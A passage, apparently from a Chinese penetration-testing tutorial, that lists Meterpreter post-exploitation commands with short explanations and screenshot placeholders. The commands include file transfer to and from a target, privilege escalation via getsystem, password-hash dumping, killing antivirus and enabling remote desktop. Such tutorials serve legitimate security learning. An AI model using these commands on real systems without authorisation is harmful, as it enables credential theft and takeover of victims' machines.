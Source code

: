 download 目标机filename 本机filename’：下载文件到本机

upload 本地文件路径 目标文件路径：上传文件到目标机

getuid：查看用户权限

getsystem：尝试获取SYSTEM权限

hashdump：导出密码的hash值

run killav：关闭杀软

run getgui -e：启用远程桌面(需要目标系统支持)

**演示部分命令：**

![v2-97b69506d85442a336f6918d1b324184_1440w.jpg](images/1619480576_60875000b3ce5046d6af6.jpg!small)

![v2-4f9d917e903839f0bcb15b25e25594d3_1440w.jpg](images/1619480577_608750011377f40dcce97.jpg!small)

![v2-9fd49fa69dea9960bfe8a720b515a2cd_1440w.jpg](images/1619480577_608750015c2dace753baf.jpg!small)

挂起会话：background

![v2-78981d8b2a0fa8a4c0fc6d7d8841c9bd_1440w.jpg](images/1619480577_60875001aab9504fbca14.jpg!small)

查看会话列表：sessions

![v2-b21c1fbae4d5b75f4367a22b06087a57_1440w.jpg](images/1619480578_60875002129e6d0b8c574.jpg!small)

进入指定ID的会话：session -I ID

![v2-a2d6cc54ce16f9aaad15f0bab464c482_1440w.jpg](images/1619480578_608750027be5c112ff3b6.jpg!small)